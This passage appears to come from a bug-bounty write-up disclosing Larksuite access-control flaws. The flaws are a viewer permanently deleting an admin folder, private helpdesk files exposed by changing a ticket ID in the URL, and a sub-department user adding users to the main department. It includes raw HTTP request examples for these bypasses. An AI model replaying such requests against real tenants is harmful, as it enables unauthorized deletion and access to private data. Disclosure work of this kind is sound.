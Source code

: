 ```http
POST /space/api/explorer/trash/delete/ HTTP/1.1
Host: internal-api-space.larksuite.com
Accept: application/json, text/plain, */*
Context: request_id=jgjIhvCWfQu6-6905236920255643653;os=windows;app_version=1.0.3.3484;os_version=10;platform=web
X-CSRFToken: d08f9dadd19d65cd1e913b0e7e62d2aa0b6a9775-1609669174
F-Version: docs-12-30-1609316079670
Origin: https://q5b6qhp5uw.larksuite.com
Referer: https://q5b6qhp5uw.larksuite.com/
Cookie: [Value]

token=123456
```

We sent this request as a viewer and using the *folder id*  of the *admin folder* , we got **200 ok** and upon confirmation, the *folder was permanently deleted* from **Admins trash**.


---


#### Access to private file's of other users in helpdesk conversation.

Remember previously we mentioned helpdesk is a golden nugget of information in every stance and this time we were able to access the *private files* used in conversation with the *larksuite staff*.

The conversations are meant to be *private* not public and *hence every message and file* was confidential. Larkhelpdesk was simply a _support portal_ which we hope you have crossed anywhere.

The clicking factor here was that we identified that they were saving the *files* on the same domain of which *one member created a ticket*, a *file url* looked something like this:

`https://name.larksuite.com/saipan/v2/api/ticket/image?ticket_id=26678` 

Since *created ticket ids*  were viewable by the *other teammates* and they can just copy the *file url* and paste it in their *browser* and *put in the random file id*, in a link if that file exists they were able to view that file. Even though it was private and not accessible by other users.


---


#### Sub-Dept User Can Add User's To Main Department

In larksuite an owner of the tenant can create sub-department's for convenience and user management. It can only be done by the owner of the tenant. If a user is *added in a subdepartment* he can only access that department and *he won't be able to access* other departments of the organization or add *new users* in them.

When adding a user in a sub-department we observed the http request and it looks like this:

```http
POST /suite/admin/employees/ HTTP/1.1
Host: hackeron1.larksuite.com 
Connection: close 
Content-Length: 149 

{"mobile":"","customFields":{"C-6826729584252157957":""},"name":"test","departments":["department_id"],"email":"ooo@gmail.com","joinTime":"","isInvite":true}
```
